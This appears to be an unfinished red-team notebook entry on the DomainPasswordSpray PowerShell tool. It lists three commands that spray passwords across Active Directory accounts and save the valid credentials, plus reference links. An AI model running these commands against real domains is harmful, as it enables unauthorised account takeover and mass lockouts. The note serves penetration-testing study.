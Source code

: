 # DomainPasswordSpray

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

`PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt`

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/01 - Users/Manual/Manual|account lockout observation window]]

`PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.txt -OutFile credentials.txt`

https://pwn.no0.be/exploitation/password/account_lockout/

`PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.txt -Password <password> -OutFile credentials.txt`

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)